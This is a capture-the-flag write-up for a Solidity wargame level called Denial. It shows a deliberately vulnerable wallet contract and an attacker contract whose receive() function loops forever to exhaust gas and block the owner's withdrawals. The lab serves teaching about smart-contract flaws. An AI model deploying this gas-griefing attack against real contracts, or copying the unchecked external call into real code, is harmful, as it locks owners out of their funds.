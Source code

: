 # 20 Denial

```
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the 
transaction is of 1M gas or less) you will win this level.
```
####  code
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}


```




#### Start 


### (1) `deny the owner from withdrawing funds when they call withdraw()`


We have to deny the function withdraw() 

Focusing the code in withdraw() , we can see that the most problematic is the external call in ` partner.call{value:amountToSend}("");`  

 We need to know  What is call.


    call() is a low level function to interact with other contracts and can do many things

    1. send ether to EAO or Contract (must implemented receive or fallback function )

    2. call to another contract function 

    return two parameters ->  bool success      - if the call has succeeded
                          ->  bytes memory data - return value


How do we deny ?

.

.

.

We can see that the contract has an external call to address `partner` which `partner` can set to our contract address 

because  `function setWithdrawPartner(address _partner) public`  it is a public function.

.

and

.

From the code, we can see that withdraw() does not use the parameter bool success to check if it succeeded or not

Thus, even if we  revert() in receive() function, it will not stop working.

The only option we have is to drain all gas, it will make the contract revert `out of gas`


We will write a contract to attack.

#### This is the code I used 
```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Denial  {
	function setWithdrawPartner(address _partner) external;
    function withdraw() external;
}


contract AtkDenial  {


    function callSetWithdrawPartner(address _target) external {
        Denial(_target).setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(true)
        {

        }
    }

}

```


- ` function callSetWithdrawPartner(address _target) external`

    This function  set  address partner to our contract address 

    
    input parameters   `_target` is address contract Denial     

- ` receive() external payable`

    This function will  drain all  gas when triggered


Use the remix deploy contract `AtkDenial  ` 

Call `function callSetWithdrawPartner(address _target) external `  and confirm transaction 


Click button Submit instance and confirm transaction 

# !!! we passed !!!

